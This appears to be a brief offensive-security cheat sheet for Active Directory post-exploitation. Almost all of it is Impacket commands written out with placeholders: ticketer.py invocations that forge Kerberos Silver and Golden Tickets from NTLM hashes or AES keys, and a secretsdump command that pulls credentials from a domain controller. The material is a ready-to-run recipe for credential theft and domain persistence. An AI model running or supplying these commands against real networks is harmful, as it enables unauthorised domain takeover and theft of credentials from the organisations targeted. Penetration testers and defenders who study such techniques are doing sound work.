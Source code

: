 #post-exploitation #credential-dumping #ticket-dumping #active-directory
# Generate Silver Tickets with Impacket:
- python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Generate Golden Tickets:
- python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Credential Access with Secretsdump

- impacket-secretsdump username@target-ip -dc-ip target-ip